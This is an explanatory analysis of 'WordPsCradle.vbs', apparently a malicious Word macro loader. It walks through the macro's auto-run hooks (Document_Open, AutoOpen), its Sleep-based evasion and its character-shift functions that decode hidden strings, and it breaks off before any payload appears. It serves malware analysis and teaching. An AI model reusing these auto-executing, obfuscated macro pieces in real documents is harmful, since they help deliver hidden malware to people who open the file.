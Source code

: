

This VBScript (`WordPsCradle.vbs`) appears to be designed for use in a macro within a Microsoft Word document, which is triggered when the document is opened. The script is obfuscated to evade detection and employs some simple techniques to avoid running in certain environments, such as sandboxes or when the document name isn't as expected. Let's break it down:

### Code Explanation

1. **Function Declarations**:
   - **Sleep Function**: Declares the `Sleep` function from the Windows API (`KERNEL32.dll`) to pause execution for a specified number of milliseconds.
     ```vba
     Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
     ```

2. **Document_Open and AutoOpen Subroutines**:
   - These subroutines trigger the `MyMacro` function when the document is opened.
     ```vba
     Sub Document_Open()
         MyMacro
     End Sub

     Sub AutoOpen()
         MyMacro
     End Sub
     ```

3. **Obfuscation Functions**:
   - **Grass Function**: Takes a number, subtracts 12, and converts it to a character.
     ```vba
     Function Grass(Goats)
         Grass = Chr(Goats - 12)
     End Function
     ```
   - **Screen Function**: Returns the first three characters of a string.
     ```vba
     Function Screen(Grapes)
         Screen = Left(Grapes, 3)
     End Function
     ```
   - **Gorgon Function**: Returns the string minus the first three characters.
     ```vba
     Function Gorgon(Topside)
         Gorgon = Right(Topside, Len(Topside) - 3)
     End Function
     ```
   - **Yellow Function**: Decodes an obfuscated string by repeatedly applying the `Grass`, `Screen`, and `Gorgon` functions to the input.
     ```vba
     Function Yellow(Troop)
         Do
             Shazam = Shazam + Grass(Screen(Troop))
             Troop = Gorgon(Troop)
         Loop While Len(Troop) > 0
         Yellow = Shazam
     End Function
     ```
